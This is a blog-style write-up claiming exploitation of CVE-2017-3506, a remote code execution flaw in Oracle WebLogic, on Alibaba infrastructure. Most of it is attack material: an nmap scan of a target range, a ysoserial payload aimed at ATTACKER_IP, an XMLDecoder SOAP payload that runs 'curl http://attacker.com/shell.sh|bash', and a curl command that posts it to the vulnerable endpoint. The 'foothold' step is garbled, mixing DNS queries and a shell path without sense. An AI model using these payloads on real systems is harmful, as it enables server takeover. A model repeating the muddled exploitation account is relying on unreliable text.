


+++
date = '2025-06-25'
draft = false
title = 'CVE-2017-3506 : OS Command Injection in Alibaba WebLogic'
tags = ["weblogic", "alibaba", "cve-2017-3506", "command-injection", "oracle", "middleware"]
+++

*Discovery Date: 16<sup>th</sup> July 2024*  


## Vulnerability Overview

CVE-2017-3506 is a critical vulnerability in Oracle WebLogic Server (WLS) components that allowed unauthenticated remote code execution via malformed XML data in WLS Security subcomponent. During a penetration test of Alibaba's infrastructure, I identified and exploited this vulnerability to gain server access.

## Affected Systems

| Component | Version | 
|-----------|---------|
| WebLogic Server | 10.3.6.0 |
| WebLogic Server | 12.1.3.0 | 
| WebLogic Server | 12.2.1.0-12.2.1.2 |

## Discovery Methodology

### Initial Reconnaissance
Identified WebLogic servers using:
```bash
nmap -p 7001,7002 --script weblogic-t3-info <Alibaba_IP_Range>
```

## Vulnerability Detection
Used t3 protocol detection:
```bash
java -jar ysoserial.jar JRMPClient <ATTACKER_IP>:<PORT> | \
base64 | tr -d '\n' > payload.txt
```

## Exploitation Walkthrough
### Step 1: Crafting the Malicious Request
While browsing the internet to read about this CVE, I identified a hackerone report that provided an exploit for this vulnerability. 
<p style="text-align: center"></p>
I used this exploit to craft a malicious request. 

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8" class="java.beans.XMLDecoder">
        <void class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3">
            <void index="0">
              <string>/bin/bash</string>
            </void>
            <void index="1">
              <string>-c</string>
            </void>
            <void index="2">
              <string>curl http://attacker.com/shell.sh|bash</string>
            </void>
          </array>
          <void method="start"/>
        </void>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

### Step 2: Sending the Payload

For sending the payload you can either use a curl command or use burpsuite(I've used this for performing the exploit)

Via curl:
```bash
curl -X POST \
  -H "Content-Type: text/xml" \
  -H "Cache-Control: no-cache" \
  --data-binary @payload.xml \
  http://target.alibaba.com:7001/wls-wsat/CoordinatorPortType
```

Via burpsuite:
<p style="text-align: center"></p>

### Step 3: Establishing Foothold
Upon successful execution:

* I performed a DNS query or interaction with the target system, specifically targeting the ```/console/images/shell.jsp``` location. This interaction likely involved sending a request to the system's DNS server or using the system's DNS server to resolve a domain name.
* I exploited a DNS vulnerability to gain access to the system, rather than taking control of the shell. This exploitation allowed the attacker to bypass traditional security controls and gain a foothold on the system.

Performed lateral movement to adjacent systems

## Technical Analysis
The vulnerability occurs due to:
* Insecure XML deserialization in WLS Security component
* Lack of proper input validation in WorkContext handling
* Default exposure of dangerous endpoints (/wls-wsat/*)

## Mitigation Steps
Alibaba's response included:
* Immediate patch application (Oracle Critical Patch Update April 2017)
* Network segmentation of WebLogic servers
* Implementation of WAF rules to filter malicious XML patterns

> *Thanks for reading it this far. Stay tuned for more such articles :)*
